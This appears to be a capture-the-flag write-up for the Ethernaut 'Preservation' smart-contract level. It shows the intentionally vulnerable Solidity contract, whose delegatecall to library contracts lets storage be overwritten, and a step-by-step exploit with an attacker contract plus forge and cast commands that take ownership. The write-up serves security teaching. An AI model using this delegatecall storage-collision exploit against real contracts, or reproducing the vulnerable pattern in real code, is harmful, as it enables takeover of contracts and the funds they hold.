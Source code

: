 ## Preservation Level Outline

**Difficulty : 8/10**

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F)

## Solution

When a contract makes a function call using delegatecall it loads the function code from another contract and executes it as if it were its own code. 

This means that when we make a delegatecall to `timeZone1Library`, we are modifying storage slot 0 in Preservation. If we change this to point to a malicious contract, we can then create a spoof function for "setTime(uint256)" and change the owner.

### Walkthrough

##### 1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    uint256 storageSlot0;
    uint256 storageSlot1;
    uint256 attack_this_slot;

    function setTime(uint256 newOwner) public {
        attack_this_slot = newOwner;
    }
}
```

##### 2. deploy our new contract
```console
forge create src/Contract.sol:Contract --private-key  $PRIVATE_KEY
```

##### 3. changing storage slot 0 to point to our malicious contract
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $DEPLOYED_ADDRESS --private-key $PRIVATE_KEY
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. calling our exploited contract through the delegatecall and passing our address as the owner
```console
cast send $LEVEL_ADDRESS "setFirstTime(uint)" $NEW_OWNER --gas 60000 --private-key $PRIVATE_KEY
```
> Replace $NEW_OWNER with your EOA address 
